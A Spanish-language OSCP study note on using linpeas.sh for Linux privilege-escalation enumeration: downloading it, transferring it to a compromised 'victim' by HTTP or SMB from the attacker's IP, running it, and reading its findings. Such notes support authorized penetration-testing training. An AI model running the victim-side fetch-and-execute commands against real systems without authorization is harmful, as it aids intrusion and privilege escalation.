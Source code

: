 `linpeas.sh` es uno de los scripts más completos para enumeración y escalada de privilegios en sistemas Linux. Está totalmente permitido en OSCP y es una de las herramientas más eficientes para encontrar vulnerabilidades locales o configuraciones débiles.

---

## Descarga

Desde tu máquina atacante:
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
```

---

## Transferencia a la víctima

### Opción 1: HTTP
```bash
sudo python3 -m http.server 80
```
En la víctima:
```bash
wget http://<tu_IP>/linpeas.sh -O /tmp/linpeas.sh
```

### Opción 2: smbserver.py
```bash
sudo smbserver.py -smb2support SHARE /ruta/del/archivo
```
En la víctima:
```bash
cp \\<tu_IP>\SHARE\linpeas.sh .
```

---

## Ejecución

```bash
chmod +x linpeas.sh
./linpeas.sh
```

Recomendado usar `script linpeas.log` antes de lanzarlo para guardar la salida.

---

## Qué detecta

- SUID/SGID peligrosos
- Cronjobs mal configurados
- Archivos `.bash_history`, backups visibles
- Capabilities (`getcap`), sockets, configuraciones sudo
- Binarios del sistema con permisos inseguros
- Servicios, PATH, variables de entorno

---

## Interpretación

- Colores: rojo = crítico, amarillo = interesante
- Asegúrate de revisar la sección de `SUDO`, `SUID`, `CAPABILITIES`, y `Writable files`
- Usa `less linpeas.log` y `grep` para filtrar si lo guardaste

---

## Buenas Prácticas

- Ejecutar nada más comprometer una máquina Linux
- Guardar la salida para análisis offline
- Revisar manualmente cada ítem marcado en rojo/amarillo

---
